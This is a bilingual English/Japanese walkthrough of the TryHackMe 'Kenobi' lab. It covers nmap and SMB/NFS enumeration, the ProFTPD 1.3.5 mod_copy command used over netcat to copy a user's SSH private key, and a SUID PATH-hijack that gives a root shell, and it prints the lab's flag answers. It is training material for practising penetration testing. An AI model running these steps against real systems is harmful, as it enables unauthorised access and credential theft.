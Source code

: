 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 4
:sectnums:
:sectanchors:
:sectlinks:

//////////////////////////////
// Contents
//////////////////////////////
= TryHackMe Kenobi solution

toc::[]

== 準備

OpenVPNでTryHackMeとの間にVPNを張っておく

----
PS C:\Users\USER>docker cp <THM-UNAME>.ovpn <C-ID>:/etc/openvpn/<THM-UNAME>.ovpn
PS C:\Users\USER>docker exec -it <C-NAME> /bin/bash
mkdir -p /dev/net
mknod /dev/net/tun c 10 200
openvpn /etc/openvpn/<THM-UNAME>.ovpn &
----

== [Task 1] Deploy the vulnerable machine

=== #1

==== T1_#1:En

Make sure you're connected to our network and deploy the machine

==== T1_#1:Ja

ネットワークに接続していることを確認し、マシンをデプロイしなさい

==== T1_#1:Solution

「Deploy」ボタンを押下

==== T1_#1:Answer

\-

=== #2

==== T1_#2:En

Scan the machine with nmap, how many ports are open?

==== T1_#2:Ja

nmapでマシンをスキャンしたら、openなポートはいくつありましたか？

==== T1_#2:Solution

[bash]
----
# nmap -T5 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 19:30 UTC
Nmap scan report for 10.10.204.92
Host is up (0.11s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
----

==== T1_#2:Answer

7

'''

== [Task 2] Enumerating Samba for shares

=== #1

==== T2_#1:En

Using nmap we can enumerate a machine for SMB shares. +
Nmap has the ability to run to automate a wide variety of networking tasks. +
There is a script to enumerate shares! ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMB has two ports, 445 and 139. +
Using the nmap command above, how many shares have been found?

==== T2_#1:Ja

nmapを使用すると、SMB共有用のマシンを列挙できます。 +
Nmapは、様々なネットワーキングタスクを自動実行する機能を備えています。 +
共有ディレクトリを列挙するスクリプトがあります！ ```nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP``` +
SMBには、445と139の2つのポートがあります。

++++
<p align="left">
  <img width="572" height="252" src="https://i.imgur.com/bkgVNy3.png">
</p>
++++

上記のnmapコマンドを使用して、いくつの共有ディレクトリが見つかりましたか？

==== T2_#1:Solution

[bash]
----
# 「-p 445」があるとSTATEがfilteredになって結果が得られない。「=」や「.nse」は無くてもOK
# nmap -T5 --script smb-enum-shares,smb-enum-users 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:00 UTC
Nmap scan report for 10.10.204.92
Host is up (0.087s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.204.92\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.204.92\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
|_smb-enum-users: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 48.06 seconds
----

==== T2_#1:Answer

3

=== #2

==== T2_#2:En

On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. +
"smbclient //<ip>/anonymous" Using your machine, connect to the machines network share. +
Once you're connected, list the files on the share. What is the file can you see ?

==== T2_#2:Ja

殆どのLinuxディストリビューションにインストールされているsmbclientコマンドで共有フォルダを検査してみよう。 +
マシンを使用して、「smbclient //<ip>/anonymous」を打ち、マシンのネットワーク共有フォルダに接続します。 +
その後、shareディレクトリのファイルを一覧表示した時、見つかるファイルは何ですか？

==== T2_#2:Solution

[bash]
----
# smbclient //10.10.204.92/anonymous
Enter WORKGROUP\GUEST's password: [PWは空打ち]
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 10:49:09 2019
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

                9204224 blocks of size 1024. 6877092 blocks available
----

==== T2_#2:Answer

log.txt

=== #3

==== T2_#3:En

You can recursively download the SMB share too. Submit the username and password as nothing. +
"smbget -R smb://<ip>/anonymous" Open the file on the share. +
There is a few interesting things found. 

* Information generated for Kenobi when generating an SSH key for the user.
* Information about the ProFTPD server.

What port is FTP running on?

==== T2_#3:Ja

下記コマンドを実行し、ユーザ名とPWを空で送信することで、SMB共有フォルダを再帰的にダウンロードできます。 +
 「smbget -R smb://<ip>/anonymous」で共有上のファイルを開きます。 +
 いくつかの興味深いものが見つかりました。

* ユーザのSSHキー生成時のKenobi用に生成された情報
* ProFTPDサーバーに関する情報

FTPはどのポートで実行されていますか？

==== T2_#3:Solution

[bash]
----
# smbget -R smb://10.10.204.92/anonymous
Password for [guest] connecting to //anonymous/10.10.204.92:
Using workgroup WORKGROUP, user guest
smb://10.10.204.92/anonymous/log.txt
Downloaded 11.95kB in 8 seconds
# ls
log.txt
# cat log.txt
Generating public/private rsa key pair.
～省略～
# This is a basic ProFTPD configuration file (rename it to
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName                      "ProFTPD Default Installation"
ServerType                      standalone
DefaultServer                   on

# Port 21 is the standard FTP port.
Port                            21
～省略～
----

==== T2_#3:Answer

21

=== #4

==== T2_#4:En

Your earlier nmap port scan will have shown port 111 running the service rpcbind.  +
This is just an server that converts remote procedure call (RPC) program number into universal addresses. +
When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. +
In our case, port 111 is access to a network file system. +
Lets use nmap to enumerate this. "nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP" What mount can we see?

==== T2_#4:Ja

以前のnmapポートスキャンでポート111がrpcbindサービスを実行していると分かった。 +
これは、Remote Procedure Call(RPC)プログラム番号をユニバーサルアドレスに変換するサーバーにすぎません。 +
RPCサービスが開始されると、当該サービスはrpcbindへ、lisstenしているアドレスと、それらを提供する準備ができているRPCプログラム番号を通知する。 +
この場合、ポート111はネットワークファイルシステムへのアクセスです。 +
「nmap -p 111 --script = nfs-ls、nfs-statfs、nfs-showmount MACHINE_IP」でこれを列挙してみよう。 +
どのマウントが見えますか？

==== T2_#4:Solution

[bash]
----
# 「-p 111」があるとSTATEがfilteredになって結果が得られない
# nmap -T5 --script nfs-ls,nfs-statfs,nfs-showmount 10.10.204.92
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 20:32 UTC
Nmap scan report for 10.10.204.92
Host is up (0.093s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
| nfs-showmount:
|_  /var *
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs

Nmap done: 1 IP address (1 host up) scanned in 11.47 seconds
----

==== T2_#4:Answer

/var

'''

== [Task 3] Gain initial access with ProFtpd

=== #1

==== T3_#1:En

Lets get the version of ProFtpd. +
Use netcat to connect to the machine on the FTP port. What is the version?

==== T3_#1:Ja

ProFtpdのバージョンを取得できます。 +
netcatを使用してFTPポートでマシンに接続します。バージョンは何か？

==== T3_#1:Solution

----
# nmap -T5 -sC -sV 10.10.203.16
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-26 02:46 UTC
Nmap scan report for 10.10.203.16
Host is up (0.10s latency).
Not shown: 993 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      36914/udp6  mountd
|   100005  1,2,3      48461/tcp   mountd
|   100005  1,2,3      58861/udp   mountd
|   100005  1,2,3      60987/tcp6  mountd
|   100021  1,3,4      39997/udp   nlockmgr
|   100021  1,3,4      41018/udp6  nlockmgr
|   100021  1,3,4      43915/tcp6  nlockmgr
|   100021  1,3,4      45819/tcp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2020-07-25T21:46:44-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-26T02:46:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.90 seconds
----

==== T3_#1:Answer

1.3.5

=== #2

==== T3_#2:En

We can use searchsploit to find exploits for a particular software version. +
Searchsploit is basically just a command line search tool for exploit-db.com. +
How many exploits are there for the ProFTPd running?

==== T3-#2:Ja

searchsploitで特定のソフトウェアバージョンのエクスプロイトを見つけられます。 +
searchsploitは基本的に、exploit-db.comのコマンドライン検索ツールです。 +
ProFTPdを実行するためのエクスプロイトはいくつあるか？

==== T3_#2:Solution

----
# searchsploit ProFTPd 1.3.5
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                               | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                     | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                               | linux/remote/36742.txt
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
----

==== T3_#2:Answer

3

=== #3

==== T3_#3:En

You should have found an exploit from ProFtpd's mod_copy module. +
The mod_copy module implements SITE CPFR and SITE CPTO commands,  +
which can be used to copy files/directories from one place to another on the server. +
Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination. +
We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

==== T3_#3:Ja

ProFtpdのmod_copyモジュールからエクスプロイトを見つけたはずです。 +
mod_copyモジュールは、SITE CPFRおよびSITE CPTOコマンドを実装しており、+
サーバー上のある場所から別の場所にファイル/ディレクトリをコピーするために使用できます。 +
認証されていないクライアントは、これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーできる。 +
FTPサービスがKenobiユーザーとして（共有上のファイルから）実行されており、そのユーザーのSSH鍵が生成されていることが分かっている。

==== T3_#3:Solution

-

==== T3_#3:Answer

-

=== #4

==== T3_#4:En

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.
We knew that the "/var" directory was a mount we could see (task 2, question 4). +
So we've now moved Kenobi's private key to the "/var/tmp" directory.

==== T3_#4:Ja

次に、SITE CPFRおよびSITE CPTOコマンドを使用して、Kenobiの秘密鍵をコピーします。

++++
<p align="left">
  <img width="602" height="94" src="https://i.imgur.com/LajBhh2.png">
</p>
++++

「/var」ディレクトリが目に見えるマウントであることがわかっていました（T2_#4）。 +
そこで、Kenobiの秘密鍵を「/var/tmp」ディレクトリに移動しました。

==== T3_#4:Solution

----
# nc 10.10.203.16 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.203.16]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
----

==== T3_#4:Answer

-

=== #5

==== T3_#5:En

Lets mount the /var/tmp directory to our machine 

----
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

We now have a network mount on our deployed machine! +
We can go to "/var/tmp" and get the private key then login to Kenobi's account. +
What is Kenobi's user flag (/home/kenobi/user.txt)?

==== T3_#5:Ja

/var/tmpディレクトリをマシンにマウントしましょう

----
mkdir /mnt/kenobiNFS
mount 10.10.203.16:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
----

++++
<p align="left">
  <img width="567" height="346" src="https://i.imgur.com/v8Ln4fu.png">
</p>
++++

以上より、展開したマシンにNWマウントできました。 +
「/var/tmp」に移動して秘密鍵を取得し、Kenobiのアカウントにログインします。 +

++++
<p align="left">
  <img width="493" height="44" src="https://i.imgur.com/Vy4KkEl.png">
</p>
++++

Kenobiのユーザーフラグ（/home/kenobi/user.txt）とは何ですか？

==== T3_#5:Solution

-

==== T3_#5:Answer

d0b0f3f53b6caa532a83915e19224899

== [Task 4] Privilege Escalation with Path Variable Manipulation

=== #1

==== #1:En

++++
<p align="left">
  <img width="392" height="192" src="https://i.imgur.com/LN2uOCJ.png">
</p>
++++

Lets first understand what what SUID, SGID and Sticky Bits are.

s|Permission s|On Files s|On Directories
|SUID Bit |User executes the file with permissions of the file owner |-
|SGID Bit |User executes the file with the permission of the group owner. |File created in directory gets the same group owner.
|Sticky Bit |No meaning |Users are prevented from deleting files from other users.

==== #1:Ja

まず、SUID、SGID、スティッキービットとは何かを理解しましょう。

s|権限 s|ファイル s|ディレクトリ
|SUIDビット |ユーザはファイル所有者の権限でファイルを実行します |-
|SGIDビット |ユーザは、グループ所有者の許可を得てファイルを実行します。 |ディレクトリに作成されたファイルは、同じグループ所有者を取得します。
|スティッキービット |意味なし |ユーザは他ユーザからファイルを削除できません。

==== T4_#1:En


#1	
SUID bits can be dangerous, +
some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), +
however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: find / -perm -u=s -type f 2>/dev/null

What file looks particularly out of the ordinary? 

==== T4_#1:Ja

SUIDビットは危険な場合があり、 +
passwdなどの一部のバイナリは昇格された特権で実行する必要があるが（システムでパスワードをリセットするため）、 +
SUIDビットを持つ他のカスタムファイルでは、あらゆる種類の問題が発生する可能性があります。

これらのタイプのファイルをシステムで検索するには、次のコマンドを実行します: "find / -perm -u=s -type f 2>/dev/null"

どのファイルが特に異常に見えるか？

==== T4_#1:Solution

自環境とKenobiの環境で下記コマンドを実行して、差分を確認してみる。

----
find / -perm -u=s -type f 2>/dev/null
----

==== T4_#1:Answer

/usr/bin/menu

=== #2

==== T4_#2:En

Run the binary, how many options appear?

==== T4_#2:Ja

バイナリを実行すると、いくつオプションが表示される？

==== T4_#2:Solution

----
menu
----

==== T4_#2:Answer

3

=== #3

==== T4_#3:En

Strings is a command on Linux that looks for human readable strings on a binary.

++++
<p align="left">
  <img width="177" height="56" src="https://i.imgur.com/toHFALv.png">
</p>
++++

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.

++++
<p align="left">
  <img width="442" height="182" src="https://i.imgur.com/OfMkDhW.png">
</p>
++++

We copied the /bin/sh shell, called it curl, +
gave it the correct permissions and then put its location in our path. +
This meant that when the /usr/bin/menu binary was run, +
its using our path variable to find the "curl" binary.. +
Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

==== T4_#3:Ja

文字列は、人間が読めるバイナリ上の文字列を探すLinuxのコマンドです。

これは、バイナリがフルパス無しで実行されていることを示しています（たとえば、/usr/bin/curlまたは/usr/bin/unameを使用していません）。

このファイルはrootユーザー権限で実行されるため、パスを操作してrootシェルを取得できます。

/bin/shシェル（curlと呼ばれる）をコピーし、適切なアクセス許可を与えて、その場所をパスに配置しました。
これは、/usr/bin/menuバイナリが実行されたときに、パス変数を使用して "curl"バイナリを見つけることを意味します。
これは、実際には/usr/shのバージョンであり、このファイルはrootとして実行されます。
rootとしてシェルを実行します！

==== T4_#3:Solution

-

==== T4_#3:Answer

-

=== #4

==== T4_#4:En

What is the root flag (/root/root.txt)?

==== T4_#4:Ja

rootフラグは何か(/root/root.txt)？

==== T4_#4:Solution

----
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
----

==== T4_#4:Answer

177b3cd8562289f37382721c28381f02
